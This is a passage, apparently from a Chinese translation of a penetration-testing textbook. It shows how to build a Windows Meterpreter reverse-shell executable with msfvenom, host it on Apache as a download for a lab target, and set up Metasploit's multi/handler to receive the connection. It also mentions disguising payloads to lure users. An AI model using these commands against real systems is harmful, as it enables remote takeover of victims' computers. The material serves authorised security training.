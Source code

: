 但是，如果你按原样运行这个命令，你会看到控制台输出垃圾信息。虽然这在技术上是我们的可执行有效载荷，但它对我们没有什么帮助。相反，我们将输出重定向到一个可执行文件，*chapter4example.exe*。

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe** > **chapter4example.exe**
root@kali:~# **file chapter4example.exe**
chapter4example.exe: PE32 executable for MS Windows (GUI) Intel 80386 32-bit
```

屏幕上没有输出，但如果我们在新创建的可执行文件上运行 `file` 命令，我们会看到它是一个 Windows 可执行文件，只要用户尝试运行它，它将在 *任何* Windows 系统上运行。（稍后，在 第十二章中，我们将看到杀毒软件应用如何阻止 Metasploit 有效载荷，并学习如何将我们的独立有效载荷混淆以绕过杀毒程序。此外，我们还将在 第十一章中讨论一些巧妙的方法来引诱用户下载并运行恶意有效载荷。）

### 投放有效载荷

一种有效的投放有效载荷的好方法是将其托管在 Web 服务器上，将其伪装成有用的东西，并引诱用户下载。对于这个示例，我们将在 Kali 机器的内建 Apache 服务器上托管我们的 Metasploit 可执行文件，然后从目标机器浏览该文件。

首先，运行 **`cp chapter4example.exe /var/www`** 将有效载荷可执行文件复制到 Apache 目录，然后确保通过 **`service apache2 start`** 启动 Web 服务器。

```
root@kali:~# **cp chapter4example.exe /var/www**
root@kali:~# **service apache2 start**
Starting web server apache2                                           [ OK ]
```

现在切换到你的 Windows XP 目标并打开 Internet Explorer。浏览到 *[`192.168.20.9/chapter4example.exe`](http://192.168.20.9/chapter4example.exe)* 并下载该文件。但在运行文件之前，我们还有一个未完成的步骤。

到目前为止，在尝试利用我们的目标机器时，Metasploit 设置了我们的有效载荷处理程序并发送了漏洞利用代码。当我们使用 Msfconsole 利用 MS08-067 漏洞并使用反向 shell 有效载荷时，Metasploit 首先设置了一个监听端口 4444 的处理程序来接收反向连接，但直到现在，我们还没有设置监听我们用 Msfvenom 创建的有效载荷的反向连接。

### 使用 Multi/Handler 模块

重新启动 Msfconsole，我们将查看一个名为 *multi/handler* 的 Metasploit 模块。这个模块允许我们设置独立的处理程序，这正是我们缺少的。我们需要一个处理程序来捕获我们的 Meterpreter 连接，当我们的恶意可执行文件在 Windows XP 目标系统上运行时。选择 *multi/handler* 模块，输入 **`use multi/handler`**。

第一步是告诉 *multi/handler* 我们需要 Metasploit 的哪些处理程序。我们需要捕获我们使用 Msfvenom 创建可执行文件时所使用的 `windows/meterpreter/reverse_tcp` 有效载荷。通过 **`set PAYLOAD windows/meterpreter/reverse_tcp`** 选择它，然后输入 **`show options`** （示例 4-16）。

示例 4-16. 使用 multi/handler 的选项

```
msf > **use multi/handler**
msf  exploit(handler) > **set PAYLOAD windows/meterpreter/reverse_tcp**
PAYLOAD => windows/meterpreter/reverse_tcp
msf  exploit(handler) > **show options**

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread, process,
                                          none
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port

*--snip--*
msf  exploit(handler) >
```
